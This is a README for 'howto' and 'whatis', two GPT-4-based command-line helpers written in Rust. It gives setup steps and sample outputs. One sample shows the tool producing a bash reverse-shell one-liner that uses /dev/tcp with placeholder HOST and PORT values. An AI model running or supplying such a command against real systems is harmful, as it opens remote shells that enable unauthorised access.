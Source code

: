 # howto & whatis

Simple, GPT-4 powered, command-line tools designed to assist IT professionals with their daily tasks.

## Setup

1. Set `OPENAI_API_KEY` environment variable containing OpenAI API key.
2. Download the release binaries or (modify the code and) build them by yourself using `cargo build -r`.
3. Place the `howto` and `whatis` binaries in your `PATH`.

## Usage examples

### howto

```shell
$ howto format string in Rust

Use the `format!` macro. For example: `let s = format!("{} {}", "Hello", "World");`

```

#### With verbose flag set (`-v` or `--verbose`)
~~~shell
$ howto format string in Rust -v

In Rust, you can format strings using the `format!` macro. This macro works similarly to `println!`, but instead of printing the output to the console, it returns a `String` with the formatted text.

Here's an example that uses `format!` to insert variables into a string with placeholder syntax:

```rust
fn main() {
    let name = "Alice";
    let age = 30;
    let formatted_string = format!("My name is {} and I am {} years old.", name, age);
    println!("{}", formatted_string); // Prints: My name is Alice and I am 30 years old.
}
```

The `{}` are placeholders for the values of `name` and `age`. The `format!` macro will replace them with the string representation of the corresponding variables.
~~~

~~~shell
$ howto get reverse shell using bash

```bash
bash -i >& /dev/tcp/HOST/PORT 0>&1
```
~~~

### whatis

```shell
$ whatis decoded string: aHR0cHM6Ly93d3cueW91dHViZS5jb20vd2F0Y2g/dj1kUXc0dzlXZ1hjUQ==

The decoded string is: https://www.youtube.com/watch?v=dQw4w9WgXcQ

```

```shell
$ whatis lol

Internet slang for "laugh out loud."
```

#### With verbose flag set (`-v` or `--verbose`)

```shell
$ whatis lol -v

"Lol" is an acronym for "laugh out loud." It is commonly used in informal communication, such as text messaging or online chats, to indicate that something is funny or to express amusement.